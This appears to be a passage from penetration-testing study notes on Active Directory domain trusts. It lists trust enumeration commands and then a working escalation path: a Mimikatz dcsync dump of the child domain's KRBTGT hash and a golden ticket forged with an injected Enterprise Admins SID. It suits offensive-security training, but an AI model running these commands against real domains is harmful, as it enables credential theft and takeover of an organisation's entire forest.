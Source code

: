 `Transitive trust` means that trust is extended to objects that the child domain trusts. In `non-transitive trust`, only the child domain itself is trusted.
### Enumerating Trusts
We can use [`Get-ADTrust`](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adtrust?view=windowsserver2022-ps) to help enumerate:
```PowerShell
# Checking trusts natively
Import-Module activedirectory
Get-ADTrust -Filter *

# Using PowerView
Get-DomainTrust 

# Get all trust mappings
Get-DomainTrustMapping

# Check users in child domain
Get-DomainUser -Domain <domain> | select SamAccountName

# Using netdom
netdom query /domain:<domain> trust

# Find DCs and workstations for a domain
netdom query /domain:<domain> dc
netdom query /domain:<domain> workstation
```
Another thing we can do is to use the analysis mode in BloodHound to map trusts.
### Attacking Parent Child Trusts
[`sidHistory`](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) is an attribute used for migration. If a user in one domain is moved to another, a new account is created in the second. The original user's SID is added to the new user's SID history so they can continue accessing resources from the original domain. Within the same forest, there's no SID filtering, therefore this property is respected.

SID history can work across domains, but also works in the same domain. Here's a common attack path:
1. Using `Mimikatz`, perform SID history injection and add an admin account to the SID history of an account you control.
2. Use this account to perform DCSync or create a golden Kerberos ticket.

This attack path requires compromising a child domain and the following:
1. KRBTGT (Kerberos KDC account) hash for the child domain
2. SID for child domain
3. Name of target user in child domain (doesn't need to exist, use a fake user)
4. FQDN of the child domain
5. SID of the group we intend to compromise of the root/parent domain

Collecting all of the required info and performing the attack on Windows:
```PowerShell
# Initial info dumping
# mimikatz, krbtgt sid
lsadump::dcsync /user:<child domain>\krbtgt

# PowerView, SID for child domain
Get-DomainSID

# PowerView, SID of group to compromise
Get-DomainGroup -Domain <Root domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Performing the attack using mimikatz
mimikatz.exe
kerberos::golden /user:Tyler /domain:<child domain> /sid:<child sid> /krbtgt:<krbtgt hash> /sids:<group to compromise sid> /ptt
```